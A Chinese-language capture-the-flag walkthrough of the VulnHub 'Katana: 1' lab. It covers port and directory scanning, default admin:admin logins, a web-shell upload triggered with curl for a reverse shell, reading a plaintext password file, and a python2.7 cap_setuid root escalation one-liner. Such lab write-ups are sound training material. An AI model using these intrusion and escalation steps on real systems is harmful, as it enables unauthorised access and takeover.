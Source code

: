 # Katana: 1

2024-5-19 https://www.vulnhub.com/entry/katana-1,482/

difficulty: Intermediate

## IP

192.168.10.181

## Scan

Open Port -> 21,22,80,139,445,7080,8088,8715

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
| tls-alpn:
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
|_http-title: Katana X
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
```

开放的端口比较多，21 ftp 不能匿名登陆，无法获取信息。

有 smb，先看看有没有映射信息：

```
enum4linux -a 192.168.10.181

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
```

没有自定义映射信息。

看看 80 的 apache web 服务上有什么信息，http://192.168.10.181/ 首页默认是一张图片，使用 gobuster 进行扫描：

```
gobuster dir -u http://192.168.10.181/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -e
```

找到了一个入口链接 http://192.168.10.181/ebook ，这个页面是个老演员了，登陆凭据是 admin:admin，是个弱密钥。但是这次在进入编辑图书的图片后，提交时出现 404，估计是设计靶场的人修改了后台程序，变成了兔子洞。

继续看其他的端口，还有一个 8715 端口的 nginx，看看有什么，访问后，弹出个 http 认证，输入 admin:admin 竟然神奇的通过了验证，但是页面显示的还是一个武士刀，没什么用。

现在只剩 LiteSpeed 这个服务了，7080 是个 ssl，没找到有用信息，8088 端口经过目录扫描后，发现了一些信息：

```
gobuster dir -u http://192.168.10.181:8088/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -e

http://192.168.10.181:8088/index.html           (Status: 200) [Size: 655]
http://192.168.10.181:8088/cgi-bin              (Status: 301) [Size: 1260] [--> http://192.168.10.181:8088/cgi-bin/]
http://192.168.10.181:8088/img                  (Status: 301) [Size: 1260] [--> http://192.168.10.181:8088/img/]
http://192.168.10.181:8088/docs                 (Status: 301) [Size: 1260] [--> http://192.168.10.181:8088/docs/]
http://192.168.10.181:8088/upload.html          (Status: 200) [Size: 6480]
http://192.168.10.181:8088/upload.php           (Status: 200) [Size: 1800]
http://192.168.10.181:8088/css                  (Status: 301) [Size: 1260] [--> http://192.168.10.181:8088/css/]
http://192.168.10.181:8088/protected            (Status: 301) [Size: 1260] [--> http://192.168.10.181:8088/protected/]
http://192.168.10.181:8088/blocked              (Status: 301) [Size: 1260] [--> http://192.168.10.181:8088/blocked/]
http://192.168.10.181:8088/phpinfo.php          (Status: 200) [Size: 50735]
```

其中 http://192.168.10.181:8088/upload.html 是一个文件上传的页面，提交的请求到 upload.php 页面上了。

/phpinfo.php 中看到了 web root 的目录：/usr/local/lsws/Example/html

在 upload 页面上传了 web shell 之后，发现页面保存在 /opt/manager/html/katana_8888.php 中，不是这个 LiteSpeed 的 web 目录。

但是这个 /opt/manager/html 好像也是一个 web 页面，能不能是那个 8715 对应的 nginx 服务，尝试进行访问，并在 kali 上先建立监听：

```
curl http://192.168.10.181:8715/katana_8888.php
```

果然在 kali 上得到了反弹的 shell。目标机器上有 python，先升级下 tty。

开始进行信息枚举，/home 目录中只有一个用户：katana，在它的目录下，发现了密码文件：

```
www-data@katana:/home/katana$ cat .ssh_passwd
katana@katana12345
```

katana 的密码为:katana12345，su 切换到该用户，继续寻找提权到 root 的路径。

该用户没有 sudo 权限，suid 中也没有特殊的可利用程序。

通过枚举，发现 cap:

```
katana@katana:~$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep

root@katana:/root# ls -al /usr/bin/python2.7
-rwxr-xr-x 1 root root 3689352 Oct 10  2019 /usr/bin/python2.7
```

root 的所属用户，进行利用：

```
katana@katana:~$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@katana:~# id
uid=0(root) gid=1000(katana) groups=1000(katana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@katana:~# cd /root
root@katana:/root# ls -al
total 44
drwx------  4 root root 4096 May 11  2020 .
drwxr-xr-x 18 root root 4096 May 11  2020 ..
-rw-------  1 root root  563 May 11  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 11  2020 .gnupg
drwxr-xr-x  3 root root 4096 May 11  2020 .local
-rw-------  1 root root  155 May 11  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   22 May 11  2020 root.txt
-rw-r--r--  1 root root   66 May 11  2020 .selected_editor
-rw-r--r--  1 root root  209 May 11  2020 .wget-hsts
root@katana:/root# cat root.txt
{R00t_key_Katana_91!}
```
